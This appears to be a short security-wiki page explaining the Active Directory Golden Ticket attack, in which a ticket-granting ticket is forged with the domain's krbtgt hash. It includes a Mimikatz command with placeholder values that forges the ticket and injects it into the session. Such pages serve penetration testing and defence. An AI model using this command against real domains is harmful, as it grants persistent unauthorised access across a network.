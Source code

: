 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Golden Ticket

A **Golden Ticket** is an TGT (Ticket Granting Ticket) crafted with the domain's **krbtgt** account hash, which is used to cryptographically sign all TGTs in the AD domain. Therefore, with the Golden Ticket an attacker is able to request any service ticket. \
This technique enables long-term access by effectively bypassing typical authentication mechanisms.

The following example shows forging ticket a Golden Ticket using Mimikatz

{% code overflow="wrap" %}
```
privilege::debug                 
kerberos::golden /user:<username> /domain:<domain_name> /sid:<domain_sid> /krbtgt:<krbtgt_hash> /id:<rid> /ptt
```
{% endcode %}
